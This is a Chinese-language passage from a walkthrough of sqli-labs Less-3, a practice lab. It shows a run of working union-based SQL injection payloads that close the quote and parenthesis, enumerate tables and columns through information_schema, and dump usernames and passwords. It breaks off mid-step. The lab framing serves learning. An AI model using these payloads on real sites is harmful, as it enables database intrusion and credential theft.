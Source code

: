 

### Less-3

+ 首先注入以下内容判断<code>sql</code>语句类型

~~~ shell
?id=1'
~~~

![Less-3_1](./img/Less-3_1.PNG)

从上面的页面报错信息可推断<code>sql</code>语句是单引号字符型且有括号，所以需要闭合单引号且也需要考虑括号



+ 根据下面的代码构建进行<code>sql</code>注入，后面所有的代码以此为基础进行构造

~~~ shell
?id=1')--+
?id=1') order by 3--+
?id=-1') union select 1,2,3--+
?id=-1') union select 1,database(),version()--+
?id=-1') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
?id=-1') union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+
?id=-1') union select 1,2,group_concat(username ,id , password) from users--+
~~~



+ 注入下面的<code>sql</code>语句：
